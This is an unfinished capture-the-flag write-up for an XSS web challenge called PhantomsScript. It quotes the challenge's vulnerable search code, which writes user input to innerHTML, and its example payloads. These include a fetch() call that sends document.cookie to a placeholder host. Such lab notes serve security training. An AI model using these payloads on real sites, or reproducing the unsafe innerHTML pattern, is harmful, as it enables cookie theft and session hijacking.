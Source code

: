 # PhantomsScript

## FLAG: HTB{}

## Status: Incomplete

+ DOCKER: Yes
+ DOWNLOADABLE: No

Description: Note: Wait for the bot to trigger your payload. It might take around ~10 seconds. Every Halloween, an enigmatic blog emerges from the depths of the dark web—Phantom's Script. Its pages are filled with cursed writings and hexed code that ensnare the souls of unwary visitors. The blog's malicious scripts weave dark secrets into the fabric of the internet, spreading corruption with each click. Rumor has it that interacting with the site in unexpected ways can trigger hidden incantations. Will you dare to delve into this haunted scroll, manipulate the scripts, and purge the malevolent code before it claims more victims?

## NOTES

1. Deploy docker instance
   1. DOCKER: 94.237.59.246:32075
2. WEBPAGE
   1. Navigating to the webpage we are met with a site that looks like it is promting for some of XSS
   2. There is a search input form
   3. We also are given two blocks on the side with information
      1. CURSED CODE BLOCK:

            ```js
                searchInput.addEventListener('input', function () {
                    const query = searchInput.value;
                    if (query.trim() !== "") {
                        const filteredArticles = filterArticles(query);
                        searchResultsHeading.innerHTML = `Results for: "${query}"`;
                        searchResultsHeading.style.display = 'block';
                        renderArticles(filteredArticles);
                    } else {
                        searchResultsHeading.style.display = 'none';
                        renderArticles(articles);
                    }
                });
            ```

      2. Spooky Documentation

            ```text
                Challenge Objective
                    Your objective is to identify and the XSS vulnerability lurking in the shadows of the search feature and pop an alert box.

                Application Structure
                    The application consists of the following haunted components:

                    - Search Feature: This is where the cursed XSS vulnerability resides. It accepts user input and displays search results based on the query provided.
                    - Articles Section: This section contains various ghostly articles that the search feature filters through based on the user's input.
                    - Cursed Code Block: This section of the application displays the actual code responsible for rendering search results, allowing you to identify potential security flaws.

                Example Payloads
                    Below are a few spooky payloads to get you started:

                    Basic XSS Payload:
                        <script>alert('Boo!');</script>
                        <script>fetch('[host]')</script>
                
                    More Diabolical Payload:
                        <img src=x onerror="alert('Boo!')">
                        <img src=x onerror="fetch('[HOST]' + document.cookie)" />

                Additional Tips
                    Pay attention to the haunted HTML and JavaScript code. The context in which your payload is executed will determine its effectiveness.
                    Experiment with different sinister payloads to see how the application responds. Some might be blocked by ancient wards, while others may slip through.
                    Use developer tools to test and debug your evil payloads.

                Good luck, and beware the curse of broken code!
            ```

            1. So it looks like this gives us the general instructions for this challenge
3. EXPLOIT
4. 
